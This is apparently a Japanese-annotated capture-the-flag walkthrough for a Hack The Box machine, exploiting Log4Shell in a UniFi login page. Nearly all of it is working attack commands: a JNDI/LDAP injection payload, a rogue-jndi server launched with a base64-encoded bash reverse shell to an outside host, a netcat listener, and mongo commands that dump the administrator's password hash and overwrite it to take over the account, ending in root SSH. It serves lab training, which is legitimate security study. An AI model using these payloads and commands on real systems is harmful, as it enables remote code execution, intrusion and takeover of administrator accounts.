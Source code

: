 # 1.Port Scan 
ip=10.129.210.188

sudo vi /etc/hosts

![9da3df8dd8cd6dc416c1e82117e3e88a.png](../_resources/9da3df8dd8cd6dc416c1e82117e3e88a.png)

 nmap -sC -sV $ip
 
![ba80298d1d930b14a8f360efa84083b8.png](../_resources/ba80298d1d930b14a8f360efa84083b8.png)

# 2. Web site

**URL: https://unified.htb:8443**

![4cf8963584f80a1960f668296ab4f8a9.png](../_resources/4cf8963584f80a1960f668296ab4f8a9.png)

## Burp suite

loginを試行

![65c6f346873451484eca7b5082e190e1.png](../_resources/65c6f346873451484eca7b5082e190e1.png)

`${jndi:ldap://192.168.11.50:1389/o=tomcat}`

![fe6004eae22a122a448615f95025e0bc.png](../_resources/fe6004eae22a122a448615f95025e0bc.png)

remerberを書き換え

![10984d8cc4c164c3648d1fd968834357.png](../_resources/10984d8cc4c164c3648d1fd968834357.png)

`sudo tcpdump -i tun0 port 389`

![93388df92ad329b634a8f5c1b41da642.png](../_resources/93388df92ad329b634a8f5c1b41da642.png)

burpsuiteからリクエストを送信

![a7ccce1439c8a72346694d4e93f97b35.png](../_resources/a7ccce1439c8a72346694d4e93f97b35.png)

![4e2d5bd337fb27b4aa83cc42a4f3b170.png](../_resources/4e2d5bd337fb27b4aa83cc42a4f3b170.png)

# 3.Rouge-jndi

`git clone https://github.com/veracode-research/rogue-jndi.git`

`sudo apt-get install maven` 

![cae9cc287e63c021fa1a0be0166ce58a.png](../_resources/cae9cc287e63c021fa1a0be0166ce58a.png)


echo 'bash -c bash -i >&/dev/tcp/10.10.16.18/4444 0>&1' | base64

![aac3742244cd5a2ba635fd64a06e2c8e.png](../_resources/aac3742244cd5a2ba635fd64a06e2c8e.png)

![d05c3dab7975af334cb2f3e053d6589e.png](../_resources/d05c3dab7975af334cb2f3e053d6589e.png)


出力したハッシュに書き換え

java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTYuMTgvNDQ0NCAwPiYxCg==}|{base64,-d}|{bash,-i}" --hostname "10.10.16.18" 

![faca2e2733f41e2f4d28b1c8d64120d5.png](../_resources/faca2e2733f41e2f4d28b1c8d64120d5.png)

![a754b94479dd3fbe3b1b2f00dbc3e7b5.png](../_resources/a754b94479dd3fbe3b1b2f00dbc3e7b5.png)

4444ポートを解放

`nc -lvnp 4444`

![fad8b33a8c4e1afacb1f1dcec05a803a.png](../_resources/fad8b33a8c4e1afacb1f1dcec05a803a.png)

burpsuiteからリクエストを送信

![1d1efa8a8ab4b59afe456dd3ad1c3d11.png](../_resources/1d1efa8a8ab4b59afe456dd3ad1c3d11.png)

![f9c831772b685640434900690581df7f.png](../_resources/f9c831772b685640434900690581df7f.png)


# 4.Get user.flag

`whoami`

`script /dev/null -c bash`

![716ec60f540f1503a5ded00a357e0b29.png](../_resources/716ec60f540f1503a5ded00a357e0b29.png)

`id`

`ls /home`

`ls /home/michael`

`cd /home/michael`

`cat user.txt`

![0347599d26a948162dda320aced17ca0.png](../_resources/0347599d26a948162dda320aced17ca0.png)

## mongo DB

ps aux |grep mongo

![9f993132975b5dc881dd3e211f2e57e5.png](../_resources/9f993132975b5dc881dd3e211f2e57e5.png)


![4a251341c53e99cadeb08f564061765b.png](../_resources/4a251341c53e99cadeb08f564061765b.png)

mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"

x_shadow: "$6$Ry6Vdbse$8enMR5Znxoo.WfCMd/Xk65GwuQEPx1M.QP8/qHiQV0PvUc3uHuonK4WcTQFN1CRk3GwQaquyVwCVq8iQgPTt4."


![47b9218fe8d36c3a85b0339286157cc6.png](../_resources/47b9218fe8d36c3a85b0339286157cc6.png)

![67861a4c34521beb34a7b1a24657fd51.png](../_resources/67861a4c34521beb34a7b1a24657fd51.png)

`mkpasswd -m sha-512 password1234`     

$6$d2cMSHPZ1xD1IWwn$IsP5ELWJk3AaRTG1Z8UnWiMy7MRSkFiGoaYOg90hG0UwZsfDYVLWggksjXN9U7eEO9ZBdxP0PfOHaTbFbDvrh/

![f5c35b3f6bb3a2a625d47bb0b1d08b86.png](../_resources/f5c35b3f6bb3a2a625d47bb0b1d08b86.png)


![f3736ed1ab2bc5ada4d6efd52b602bd3.png](../_resources/f3736ed1ab2bc5ada4d6efd52b602bd3.png)

mongo --port 27117 ace --eval 'db.admin.update({"_id":
ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"$6$d2cMSHPZ1xD1IWwn$IsP5ELWJk3AaRTG1Z8UnWiMy7MRSkFiGoaYOg90hG0UwZsfDYVLWggksjXN9U7eEO9ZBdxP0PfOHaTbFbDvrh/"}})'

![5b0da8f89ae677944c3db4598310afc9.png](../_resources/5b0da8f89ae677944c3db4598310afc9.png)


user: 6ced1a6a89e666c0620cdb10262ba127

# 5.Web site 

user:administrator
password:password1234

![3b46e7625b33d20eba3101b428133730.png](../_resources/3b46e7625b33d20eba3101b428133730.png)

rootuserとpasswordを確認

![e010b3dd47ff484856ade188efd63bc8.png](../_resources/e010b3dd47ff484856ade188efd63bc8.png)

`ssh root@$ip`

![cde6083b872e53b0f385d4fb50a63463.png](../_resources/cde6083b872e53b0f385d4fb50a63463.png)